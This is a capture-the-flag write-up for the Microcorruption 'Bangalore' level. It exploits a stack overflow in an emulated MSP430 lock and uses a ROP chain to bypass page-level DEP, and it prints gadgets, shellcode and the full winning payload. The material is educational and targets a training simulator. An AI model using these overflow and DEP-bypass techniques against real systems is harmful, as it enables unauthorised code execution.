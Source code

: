 # For bangalore in microcorruption

In this challenge, we are introduced a new form of protection against hacking.

>   Lockitall engineers  have worked for  over a year to  bring memory
    protection to  the MSP430---a  truly amazing achievement.  Each of
    the 256  pages can  either be executable  or writeable,  but never
    both, finally  bringing to  a close  some of  the issues  in prior
    versions.

This is known as NX and DEP. In this challenge, the function `44de <set_up_protection>` sets up the protection. It calls 3 different functions which doe as their respective names imply.

1. `449c <mark_page_writable>`
2. `44b4 <mark_page_executable>`
3. `44cc <turn_on_dep>`

### Analysis of the program

```
4512 <login>
4512:  3150 f0ff      add	#0xfff0, sp
4516:  3f40 0024      mov	#0x2400, r15
451a:  b012 7a44      call	#0x447a <puts>	# Enter the password to continue.
451e:  3f40 2024      mov	#0x2420, r15
4522:  b012 7a44      call	#0x447a <puts>	# Remember: passwords are between 8 and 16 characters.
4526:  3e40 3000      mov	#0x30, r14
452a:  0f41           mov	sp, r15
452c:  b012 6244      call	#0x4462 <getsn>	# getsn(sp, 48 characters)
4530:  3f40 6524      mov	#0x2465, r15
4534:  b012 7a44      call	#0x447a <puts>	# That password is not correct.
4538:  3150 1000      add	#0x10, sp
453c:  3041           ret
```
No matter what our password is, it will always be "incorrect".

The 17th character in our input will override the return address of `<login>`. We can control program flow after `<login>` returns. The memory dump below shows the memory after giving `aaaaabbbbbcccccdddddeeeeefffffggggghhhhhiiiiijjjjjkkkkklllll` as the input. The input is truncated to 48 characters.
```
3fe0:   7444 0000 0000 0a00 9644 0000 3845 6161   tD.......D..8Eaa
3ff0:   6161 6162 6262 6262 6363 6363 6364 6464   aaabbbbbcccccddd
4000:   6464 6565 6565 6566 6666 6666 6767 6767   ddeeeeefffffgggg
4010:   6768 6868 6868 6969 6969 696a 6a6a 0000   ghhhhhiiiiijjj..
4020:   *
```
After `<login>` returns, the `pc` is loaded with the 17th & 18th characters of the input.
```
pc  6464 
```

Now we only need to find the correct function(s) to call. There is just one problem; there is *no* function to call to unlock the door. There is no ASLR enabled here, so we can smash the stack to point back to our input. Even though the stack is writable and not executable, why don't we just make it executable again with `44b4 <mark_page_executable>` to execute our shellcode? 

> Return-oriented programming (ROP) is a computer security exploit technique that allows an attacker to execute code in the presence of security defenses such as executable space protection.

To do so, we need to do some [ROPing](https://en.wikipedia.org/wiki/Return-oriented_programming). We have 2 different ROP gadgets. After that, our shellcode in the stack will become executable.

- Gadget A:
```
4508:  3b41           pop	r11
450a:  3041           ret
```
This will pop the memory page we want to be made executable into `r11`. 

- Gadget B:
```
44f6:  0f4b           mov	r11, r15
44f8:  b012 b444      call	#0x44b4 <mark_page_executable>
44fc:  1b53           inc	r11
44fe:  3b90 0001      cmp	#0x100, r11
4502:  f923           jne	#0x44f6 <set_up_protection+0x18>
[...]
450a:  3041           ret
```
Gadget B takes the value of `r11` (set by Gadget A) and makes all the pages between it and page 0x100 executable.

Hold up. What do you mean by "page"?

>Some version of the LockIT Pro contain memory protection which allows each
of the 256 pages to be either executable or writable, but never both.
[source](https://microcorruption.com/manual.pdf)

A [page](https://en.wikipedia.org/wiki/Page_(computer_memory)) is a continuous block of virtual memory of fixed length. In this challenge, there are a total of `0x10000` bytes (from `0x0000` to `0xffff`). Since the manual states that there are `0x100` pages, each page is `0x100` bytes large.

```
44e6:  1b43           mov	#0x1, r11
44e8:  0f4b           mov	r11, r15
44ea:  b012 9c44      call	#0x449c <mark_page_writable>
44ee:  1b53           inc	r11
44f0:  3b90 4400      cmp	#0x44, r11
44f4:  f923           jne	#0x44e8 <set_up_protection+0xa>
```
The snippet of code above shows that pages 1 to 44 (ie addresses `0x100` to `0x4400` are made writable). The stack is initialised to be in address `0x4000`, which makes sense because it must be writable. Otherwise, the program would not be able to key in values into the stack to pass as arguments to a function. Hang on a minute. Do you realise how I contradicted myself? We know that no area of memory can be *both* writable and executable. The stack, which lies around memory `0x4000` *must* be writable, so if we make it executable to execute our shellcode, the program is no longer able to function because it can't write anything into memory. It would give us the error: `Segmentation Fault: can not write to execute-only page.`.

We have to write our shellcode somewhere else (say address `0x4200` where it is writable, and not in the same page as the stack). It cannot be in the same page as the stack because when we make its page executable, it will leave the stack writable. To write into address `0x4200`, we shall call `getsn(0x4200, 8)` to read 8 characters into address `0x4200`. We read 8 characters because it is the length of our shellcode.

- Gadget C
```
4462 <getsn>
[...]
4468:  3180 0600      sub	#0x6, sp
446c:  3240 0082      mov	#0x8200, sr
4470:  b012 1000      call	#0x10
4474:  3150 0a00      add	#0xa, sp
4478:  3041           ret
```

After that, we make page 42 (ie address `0x4200` to `0x42ff`) executable with Gadget A and B. Then, the ROP chain returns to our shellcode in address `0x4200`.

> The interrupt kind is passed in R2, the status register, on the high byte. Arguments are passed
on the stack.
[source](https://microcorruption.com/manual.pdf)

This is our shellcode, which is equivalent to calling `INT 0x7F`.
```
mov #0xFF00, sr;	# INT 0x7F
call #0x10;

In hex: 324000ffb0121000
```

### Winning input

Putting all these together, we can craft the exploit below.

1st input: `6161616161616161616161616161616168440042080008454200f644ffff0042`

2nd input: `324000ffb0121000`

Let me dissect the input for you.

- `61616161616161616161616161616161` is the padding. 
- `684400420800` returns to Gadget C with the arguments `0x4200` and `0x8`. This is where we key in Input 2. 
- `08454200` pops `0042` into `r11`. 
- `f644` returns into Gadget B to make address `0x4200` to `0xffff` executable so we can execute our shellcode. 
- `0042` returns to the shellcode in address `0x4200`. It unlocks the door.

END
